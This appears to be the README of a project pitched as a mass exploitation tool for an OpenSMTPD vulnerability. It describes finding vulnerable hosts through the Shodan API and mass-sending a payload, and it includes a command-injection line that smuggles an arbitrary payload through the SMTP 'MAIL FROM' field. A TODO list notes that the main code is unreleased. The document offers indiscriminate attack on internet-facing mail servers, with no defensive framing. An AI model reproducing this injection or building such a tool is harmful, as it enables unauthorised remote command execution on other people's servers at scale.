 # OpenSMTPD
A mass exploitation tool for CVE 2020-8793 

----------------------------------------------------------------------------------

# Info

The Shodan API to find vulnerable devices and mass sends a payload to the target

To customize the payload :
s.send(bytes(f'MAIL FROM:<;{payload};>\r\n', 'utf-8'))

Change the variable 'payload' to your desired payload 

----------------------------------------------------------------------------------


# TODO

- [ ] Release Main Code
- [ ] Add Threading
- [ ] Add Payload Input
- [ ] Make Error Outputs
- [ ] Make Time Logs

----------------------------------------------------------------------------------

# Systems

- Tested Systems:
  - Parrot OS Home
  - Kali Linux Mate
  - Windows 10
  - Windows 7
  - Ubuntu 20.2

----------------------------------------------------------------------------------

# Example

![Example](https://i.imgur.com/CYeopPK.png)
